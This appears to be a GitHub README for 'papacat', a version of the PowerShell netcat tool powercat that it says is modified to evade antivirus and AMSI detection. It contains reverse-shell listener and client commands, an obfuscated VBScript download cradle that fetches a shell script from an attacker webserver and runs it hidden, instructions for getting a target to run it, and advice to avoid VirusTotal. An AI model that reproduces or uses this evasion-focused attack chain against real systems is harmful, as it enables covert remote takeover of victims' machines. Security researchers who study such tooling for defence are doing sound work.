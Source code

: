      powercat - Netcat, The Powershell Version
     Github Repository: https://github.com/besimorhino/powercat
     
     This script attempts to implement the features of netcat in a powershell
     script. It also contains extra features such as built-in relays, execute
     powershell, and a dnscat2 client. 
     
     Redpill papacat version its a modified version of powercat to bypass AV AMS1 detection.
     
     
     Usage: papacat [-c or -l] [-p port] [options]
     -c  <ip>        Client Mode. Provide the IP of the system you wish to connect to.
                     If you are using -dns, specify the DNS Server to send queries to.
            
     -l              Listen Mode. Start a listener on the port specified by -p.
  
     -p  <port>      Port. The port to connect to, or the port to listen on.
  
     -e  <proc>      Execute. Specify the name of the process to start.
  
     -ep             Execute Powershell. Start a pseudo powershell session. You can
                     declare variables and execute commands, but if you try to enter
                     another shell (nslookup, netsh, cmd, etc.) the shell will hang.
            
     -t  <int>       Timeout. The number of seconds to wait before giving up on listening or
                     connecting. Default: 60
            
     -i  <input>     Input. Provide data to be sent down the pipe as soon as a connection is
                     established. Used for moving files. You can provide the path to a file,
                     a byte array object, or a string. You can also pipe any of those into
                     papacat, like 'aaaaaa' | papacat -c 10.1.1.1 -p 80
            
     -o  <type>      Output. Specify how papacat should return information to the console.
                     Valid options are 'Bytes', 'String', or 'Host'. Default is 'Host'.
            
     -of <path>      Output File.  Specify the path to a file to write output to.
            
     -d              Disconnect. papacat will disconnect after the connection is established
                     and the input from -i is sent. Used for scanning.
            
     -rep            Repeater. papacat will continually restart after it is disconnected.
                     Used for setting up a persistent server.
                  
     -g              Generate Payload.  Returns a script as a string which will execute the
                     papacat with the options you have specified. -i, -d, and -rep will not
                     be incorporated.
                  
     -ge             Generate Encoded Payload. Does the same as -g, but returns a string which
                     can be executed in this way: powershell -E <encoded string>
     -h              Print this help message.
     
     Examples:
     Listen on port 8000 and print the output to the console.
         papacat -l -p 8000 -v
  
     Connect to 10.1.1.1 port 443, send a shell, and enable verbosity.
         papacat -c 10.1.1.1 -p 443 -e cmd -v
  
     Send a file to 10.1.1.15 port 8000.
         papacat -c 10.1.1.15 -p 8000 -i C:\inputfile
  
     Write the data sent to the local listener on port 4444 to C:\outfile
         papacat -l -p 4444 -of C:\outfile
  
     Listen on port 8000 and repeatedly server a powershell shell.
         papacat -l -p 8000 -ep -rep -v

<br />

# papacat Manual Execution

<br />

#### Download cmdlet
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/hacking-material-books/master/papacat.ps1" -OutFile "papacat.ps1"
```

<br />

#### handler (listenner)
```powershell
Import-Module -Name .\papacat.ps1 -Force
papacat -l -p 666 -v
```

#### Cmd Client (payload)
```powershell
Import-Module -Name .\papacat.ps1 -Force
papacat -c 192.168.1.72 -e cmd.exe -p 666 -v
```

#### powershell Client (payload)
```powershell
Import-Module -Name .\papacat.ps1 -Force
papacat -c 192.168.1.72 -ep -p 666 -v
```

---

<br /><br />

# Automation - Obfuscation ( @Meterpeter )

<br />

#### [update.vbs] download crandle
```vbscript
' Author: @r00t-3xp10it (ssa)
' Application: papacat download crandle
' Description:
'   This VBS will download Trigger.ps1 (rev tcp shell) from attacker webserver
'   imports module and executes module in a hidden console. ( background )
' ---

dIm Char,Cmd,Layback
Char="@!COLOMBO@!"+":007:VIRIATO@!"+"NAVIGATOR@!"
Layback=rEpLaCe(Char, "@!", ""):Cmd=rEpLaCe(Layback, ":007:", "")

set ObjConsole = CreateObject("Wscript.Shell")
ObjConsole.Run("powershell.exe cd $Env:TMP;iwr -Uri http://"+Cmd+"/Trigger.ps1 -OutFile Trigger.ps1;Import-Module -Name .\Trigger.ps1 -Force;Trigger-c Server@Local@host -e cmd.exe -p 666"), 0
}
```

<br />

#### Download cmdlet
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/hacking-material-books/master/papacat.ps1" -OutFile "papacat.ps1"
```

#### Generate - Cmd Client (payload) Obfucated
```powershell
Import-Module -Name .\papacat.ps1 -Force
papacat -c 192.168.1.72 -e cmd.exe -p 666 -g > Trigger.ps1
```

<br />

## The next section requires using terminal to execute commands ...
- Get Local host adress to config the crandle
- replace <b><i>8080</i></b> by <b><i>apache\http.server</i></b> port (webserver)
```powershell
$Local_Host = ((ipconfig | findstr [0-9].\.)[0]).Split()[-1]
$FirstRange = $Local_Host[0,1,2,3,4] -join ''                          # 192.1   - COLOMBO
$SeconRange = $Local_Host[5,6,7,8] -join ''                            # 68.1    - VIRIATO
$TrithRange = $Local_Host[9,10,11,12,13,14,15,16,17,18,19,20] -join '' #.72
$LastRanges = "$TrithRange" + ":" + "8080" -join ''                    #.72:8080 - NAVIGATOR
```
- Replace the attacker ip addr (obfuscated\split) on vbs crandle
```powershell
((Get-Content -Path "update.vbs" -Raw) -Replace "VIRIATO","$SeconRange")|Set-Content -Path "update.vbs"
((Get-Content -Path "update.vbs" -Raw) -Replace "COLOMBO","$FirstRange ")|Set-Content -Path "update.vbs"
((Get-Content -Path "update.vbs" -Raw) -Replace "NAVIGATOR","$LastRanges")|Set-Content -Path "update.vbs" 
((Get-Content -Path "update.vbs" -Raw) -Replace "Server@Local@host","$Local_Host")|Set-Content -Path "update.vbs" 
``` 

<br />

- start the handler `Import-Module -Name .\papacat.ps1 -Force;papacat -l -p 666`
- Store update.vbs + copy Trigger.ps1 on attacker webserver (port 8080)
- send update.vbs url to target to trigger the client download (Trigger.ps1)
- execute update.vbs on target machine to get the connection back

![papacat](https://user-images.githubusercontent.com/23490060/155600050-539eeac6-26ee-46e0-a8eb-061daac5e38c.png)

<br /><br />

#### URL
https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1<br />
https://www.ired.team/offensive-security/defense-evasion/bypassing-ids-signatures-with-simple-reverse-shells

# Final Notes
Dont Test this on VirusTotal or similar websites ...
